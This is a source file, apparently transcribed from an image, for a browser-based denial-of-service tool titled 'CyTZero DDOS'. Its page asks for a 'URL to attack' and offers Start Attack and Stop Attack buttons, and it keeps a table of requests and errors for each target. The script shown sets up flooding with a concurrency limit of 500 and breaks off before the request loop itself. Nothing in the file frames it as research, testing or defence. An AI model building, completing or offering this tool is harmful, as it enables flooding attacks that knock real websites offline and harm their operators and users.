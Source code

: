         input[type="text"] {
            width: 50%;
            padding: 10px;
            margin-right: 10px;
            border-radius: 5px;
            margin: 0.5%;
            border: 1px solid #007BFF; /* Blue border for input */
        }

        button {
            padding: 10px 20px;
            border: none;
            background-color: #007BFF; /* Blue button */
            color: white; /* White text */
            cursor: pointer;
            margin: 0.5%;
            border-radius: 5px; /* Rounded corners */
        }

        button:hover {
            background-color: #0056b3; /* Darker blue on hover */
        }
    </style>
</head>
<body>
    <h1>CyTZero DDOS</h1>
    <div id="controls">
        <input type="text" id="urlInput" placeholder="Enter URL to attack" />
        <button id="startBtn">Start Attack</button>
        <button id="stopBtn" disabled>Stop Attack</button>
    </div>
    <div id="stats"></div>

    <script>
        var targets = {
            '': { number_of_requests: 0, number_of_errored_responses: 0 },
        };

        var statsEl = document.getElementById('stats');
        var attackRunning = false;
        var targetUrl = '';
        var floodPromise = null;

        function printStats() {
            statsEl.innerHTML = '<table border="1"><thead><tr><th>Web</th><th>Number of Requests</th><th>Number of Errors</th></tr></thead><tbody>' +
                Object.entries(targets).map(([target, { number_of_requests, number_of_errored_responses }]) =>
                    '<tr><td>' + target + '</td><td>' + number_of_requests + '</td><td>' + number_of_errored_responses + '</td></tr>').join('') + '</tbody></table>';
        }
        setInterval(printStats, 1000);

        const CONCURRENCY_LIMIT = 500;
        var queue = [];
